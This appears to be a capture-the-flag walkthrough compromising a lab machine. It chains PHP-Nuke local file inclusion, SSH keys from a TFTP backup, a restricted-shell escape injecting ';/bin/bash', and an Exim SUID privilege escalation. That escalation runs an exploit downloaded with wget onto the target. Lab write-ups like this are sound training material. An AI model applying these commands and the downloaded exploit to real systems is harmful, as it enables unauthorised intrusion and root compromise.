









## Vulnerability Exploited: 
   1. PHP-Nuke Rocket add-in - Local File Inclusion(LFI)
   2. Exim 4.84-3 - Local Privilege Escalation 

   
## Enumeration:
   * Run nmap scan  `sudo nmap -A -T4 <Machine IP>|tee nmap.txt`  to view open ports,versions of services and run the default scripts.
   	
   		

   	1. *Apache HTTP server* is running at port 80.
   	2. *OpenSSH is running* at port 22.

   
   * Run nikto to scan for vulnerabilities on the web server
   	 
   	 	

   	1. We can see **Local File Inclusion(LFI)** vulnerability in the PHP script.
   	2. There is also a *admin.php* page which is basically a login page for the admin. 

## Gaining Access:
   1. First, we check for some **SQLi** in the the admin login page.
   2. Single quotation leads to some *MySQL error* which means **SQLi** is possible. But after trying for several hours, I   
      came to the conclusion that **SQLi** is not possible and it is possibly a rabbit hole :).   
   3. Then I checked for **LFI** by traversing all the way to */etc/passwd* file. And it worked.

	   

   4. At the end of */etc/passwd*, we can see a suspicious file */usr/local/scripts/backup.sh*. We can look into the file 
	   with the help of **LFI**.
	   
	      
   
   5. The file says that we can download the *backup.tar* file using *TFTP*.
         

   6. Extracting the file, we get two folders, *home* and *var*. *home/paul/keys* contains the many *ssh* keys.
   7. We try each key one by one and finally *id_key4* gives us access as user paul.

   	   
  
   8. But, we get a menu based shell access which allows us to run only few commnads.
   9. To break out of the restricted shell, we use the option **edit file** and then we input the command `;/bin/bash` and   
   	  then quit vim using `:q!`.

   	  

  10. BOOM!!! We got SHELL :).

## Priviledge Escalation:

   1. Run the command `find / -perm -u=s -type f 2>/dev/null` to find the programs with SUID bit on.
   2. The program */usr/exim/bin/exim-4.84-7* looks suspicious.
   3. Using *searchsploit*, we come to know that this file is vulnerable to **Local Priviledge Escalation**.

      
   
   4. By running the command `wget https://www.exploit-db.com/download/39535` in our target machine, we download the exploit.
   5. Now run the command `chmod +x 39535` to make it an executable and then execute it with `./39535`.
   6. YEAH!!! We are ROOT.

   	  